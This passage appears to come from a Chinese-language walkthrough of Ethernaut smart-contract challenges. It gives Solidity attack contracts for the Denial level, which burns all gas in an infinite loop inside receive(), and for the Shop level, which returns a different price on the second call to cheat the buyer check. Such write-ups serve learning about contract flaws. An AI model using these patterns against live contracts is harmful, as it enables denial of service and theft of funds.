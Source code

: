 使用 call 进行转账时，没有去验证转账结果，所以转账成功或者失败都会进行下一步操作，因此要想不进入下一步操作，就需要在上一步消耗掉所有的 gas。使用 while 无限循环，这样上一步消耗完所有的 gas，那么下一步自然就不能执行。

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./Denial.sol";
contract Hack {
    function hack(Denial target) external {
        target.setWithdrawPartner(address(this));
        target.withdraw();
    }

    receive() external payable{
        while(true){

        }
    }
}
```

## 21-shop

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./Shop.sol";

contract Hack{

    Shop private shop;
    constructor(address target){
        shop = Shop(target);
    }

    function hack() external {
        shop.buy();
    }

    function price() external view returns(uint){
        if(shop.isSold()) {
            return 80;
        } else {
            return 101;
        }
    }


}
```
